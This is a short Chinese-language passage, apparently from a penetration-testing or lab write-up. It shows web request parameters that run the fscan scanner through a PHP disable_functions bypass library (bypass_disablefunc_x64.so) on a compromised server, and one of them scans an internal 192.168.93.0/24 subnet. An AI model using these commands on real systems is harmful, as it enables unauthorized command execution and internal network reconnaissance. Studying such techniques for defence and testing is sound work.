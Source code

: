 

测试运行

```
?cmd=/tmp/fscan -h&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

![image-20250406210729366](./assets/image-20250406210729366.png)

成功

扫描内网信息

```
?cmd=/tmp/fscan -h 192.168.93.0/24&outpath=/tmp/xx&sopath=/tmp/bypass_disablefunc_x64.so
```

同时运行结果会保存在当前bypass目录下的result.txt中

